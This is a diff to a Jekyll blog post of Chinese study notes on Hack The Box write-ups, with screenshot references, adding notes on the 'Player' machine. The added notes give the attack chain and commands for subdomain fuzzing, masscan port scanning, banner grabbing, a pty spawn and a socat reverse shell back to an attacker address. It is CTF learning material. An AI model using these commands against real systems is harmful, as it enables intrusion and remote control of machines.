

Before and after one commit to SewellDinG/sewellding.github.io, a Jekyll site: the page built from _posts/2020-12-31-《Write-ups for 0xrick's hack-the-box》学习备忘录的副本.md, in a window 1280 px wide. Shown: the whole page at 97% size, without its empty margins (207-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 900 px from its top, so only the background shows below that.

Commit message:
Add Write-ups for 0xrick's hack-the-box(#2)

````diff
--- a/_posts/2020-12-31-《Write-ups for 0xrick's hack-the-box》学习备忘录的副本.md
+++ b/_posts/2020-12-31-《Write-ups for 0xrick's hack-the-box》学习备忘录的副本.md
@@ -26,3 +26,24 @@
 - 目录枚举：除了gobuster，还有dirb、dirsearch、wfuzz等工具。wfuzz是web模糊处理工具，类似于Burpsuite的intruder功能。
 - SQL注入：通过语音识别用户上传的wav文件，执行并输出结果。场景很新颖，hard CTF-style。
 - Linux提权：发现Apache Tomcat服务，作者首先确定了此服务无利用价值后，进而深入研究了其Tomcat jdwp服务。
+
+### 二、Player
+
+环境概述：Linux、Hard、40'、06 Jul 2019
+
+渗透流程：Nmap -> Web Enumeration -> FFmpeg HLS Vulnerability –> Arbitrary File Read -> Command Injection –> User Flag -> Credentials in fix.php –> RCE –> Shell as www-data -> Root Flag
+
+知识点：
+
+- 子域名枚举：使用wfuzz，`wfuzz --hc 403 -c -w subdomains-top1mil-5000.txt -H "HOST: FUZZ.player.htb" http://10.10.10.145`。
+- 文件泄露：`.swp`, `.bak` and `~`。
+- 端口扫描：使用masscan，`masscan -p1-65535 10.10.10.145 --rate=1000 -e tun0`。
+- Banner头泄露：通过使用nc，`nc ip port`可查看相应服务泄露的banner头，如SSH可看到版本。
+- TTY伪终端：使用python，`python -c "import pty;pty.spawn('/bin/bash')"`。
+
+思考：
+
+- 重定向：渗透过程中将Burpsuite或ZAP打开，便于查看请求历史，避免漏掉重定向前的请求应答页面。
+- 源码泄露：`.xxx.php.swp`文件是异常退出vi/vim编辑器时产生的文件，使用`vi/vim -r xxx`恢复，除此之外，还有`.xxx.php.swo`、`.xxx.php.swn`等以sw+最后一个字母依次递增的后缀文件，各种编辑器异常退出产生的文件后缀不唯一。
+- TTY交互式终端：使用socat，```#Listener: socat file:`tty`,raw,echo=0 tcp-listen:4444 #Victim: socat exec:`bash -li`,pty,stderr,setsid,sigint,sane tcp:1xx.xxx.xxx.xxx:4444```。
+- Linux提权：只要是以root权限运行的服务，都要逐一排查。如果是PHP、Python等启动的程序，要进行代码审计，重点发现文件包含、命令执行漏洞，寻找输入点，并借此进程获取root。
````
